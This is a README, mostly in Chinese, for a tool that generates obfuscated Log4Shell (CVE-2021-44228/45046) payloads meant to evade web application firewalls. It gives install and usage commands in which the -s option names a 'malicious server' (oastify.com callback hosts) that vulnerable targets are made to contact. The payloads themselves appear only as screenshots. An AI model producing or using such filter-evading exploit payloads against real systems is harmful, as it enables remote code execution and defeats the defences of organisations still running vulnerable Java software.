 # Log4Shell-obfuscated-payloads-generator
Log4Shell-obfuscated-payloads-generator可以生成初级混淆的或二级混淆的CVE-2021-44228或CVE-2021-45046 payloads，以规避WAF检测。

## 安装
```
git clone https://github.com/r3kind1e/Log4Shell-obfuscated-payloads-generator.git
```

Log4Shell-obfuscated-payloads-generator在任何平台上都可以在Python 3.x版本中开箱即用。

## Usage
要获取基本选项列表，请使用：

```
python3 Log4Shell-obfuscated-payloads-generator.py -h
```

要获取使用示例，请使用：

```
python3 Log4Shell-obfuscated-payloads-generator.py -hh
```

## Screenshots
`-h`: 获取基本选项列表
![help](img/help.png)

`-hh`: 获取使用示例
![usage-examples](img/usage-examples.png)

使用单个选项生成有效负载，`-s`选项指定恶意服务器：
```
--generate-primary-obfuscated-cve-2021-44228-payload 8 -s ck0pf4l6fmq4w0v17o7t894txk3arz.oastify.com
```
![primary44228](img/primary44228.png)
![burp-collaborator-client1](img/burp-collaborator-client1.png)

```
--generate-primary-obfuscated-cve-2021-45046-payload 4 -s x53a0p6r07bphlgms9setupei5owcl.oastify.com
```
![primary45046](img/primary45046.png)

```
--generate-secondary-obfuscated-cve-2021-44228-payload 5 -s oia1rpap41mhxkp6rdbbywit1k7avz.oastify.com
```
![secondary44228](img/secondary44228.png)
![burp-collaborator-client2](img/burp-collaborator-client2.png)

```
--generate-secondary-obfuscated-cve-2021-45046-payload 5 -s 3vzg44n4hgzwaz2l4soqbbv8ezkq8f.oastify.com
```
![secondary45046](img/secondary45046.png)

使用多个选项来生成有效负载，`-s` 选项指定了恶意服务器：
```
--generate-primary-obfuscated-cve-2021-44228-payload 4 --generate-secondary-obfuscated-cve-2021-44228-payload 4 -s exfr6fpfjr17ca4w63q1dmxjgam2ar.oastify.com
```
![primary44228secondary44228](img/primary44228secondary44228.png)

如果不使用`-s`选项指定恶意服务器，`{{callback_host}}`占位符将保留在生成的有效负载中：
```
--generate-primary-obfuscated-cve-2021-44228-payload 3
```
![primary44228-without-server](img/primary44228-without-server.png)
```
--generate-primary-obfuscated-cve-2021-45046-payload 3 --generate-secondary-obfuscated-cve-2021-45046-payload 7
```
![primary45046secondary45046](img/primary45046secondary45046.png)

**TODO: Log4Shell-obfuscated-payloads-generator的设计思路将在5月20日之后发布。**
